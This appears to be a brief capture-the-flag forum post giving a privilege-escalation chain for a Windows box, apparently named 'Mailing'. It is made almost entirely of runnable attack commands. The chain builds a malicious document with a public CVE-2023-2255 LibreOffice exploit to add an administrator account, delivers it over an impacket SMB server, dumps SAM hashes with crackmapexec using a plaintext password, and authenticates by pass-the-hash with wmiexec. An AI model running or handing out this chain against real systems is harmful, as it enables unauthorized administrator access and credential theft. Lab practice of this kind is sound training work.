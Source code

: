 For those that haven't rooted:  
  
git clone [https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)  
  
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'  
  
> Start SMB Server  
impacket-smbserver mailing `pwd` -smb2support  
  
> copy file to C:\Important Documents  
net use \\<ip>\mailing  
copy \\<ip>\mailing\exploit.odt  
  
> wait a few seconds then confirm maya is an admin  
net user maya  
  
>dump sam hash  
crackmapexec smb <box-ip> -u maya -p "m4y4ngs4ri" --sam  
  
> auth with localadmin hashes  
impacket-wmiexec localadmin@<box-ip> -hashes "<hashes>"